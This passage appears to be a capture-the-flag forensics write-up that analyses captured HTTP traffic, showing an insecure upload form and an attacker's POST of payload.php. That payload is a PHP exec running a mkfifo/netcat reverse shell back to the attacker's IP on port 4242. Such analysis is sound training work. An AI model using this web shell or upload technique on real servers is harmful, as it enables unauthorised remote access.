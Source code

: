 
To get only the traffic to and from the attacker we filter on:
`(tcp || udp) && (ip.src ==  192.168.170.145 || ip.dst == 192.168.170.145)`

## Communication on port 80 HTTP

```http
GET /development/ HTTP/1.1
...
```

response
```http
<!-- Muiri tells me this is insecure, I only learnt PHP this week so maybe I should let him fix it? Something about php eye en eye? -->
<!-- TODO add downloading of your overpass files -->
      <form action="upload.php" method="post" enctype="multipart/form-data">
        <div class="formElem"><label for="fileToUpload">Upload your .overpass file for cloud synchronisation</label><input type="file"
            name="fileToUpload" id="fileToUpload"></div>
        <div class="formElem"><input type="submit" value="Upload File" name="submit"></div>
      </form>

```

```http
POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1
-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"
Upload File
-----------------------------1809049028579987031515260006--
```

```http
HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:34:01 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 39
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

The file payload.php has been uploaded.
```
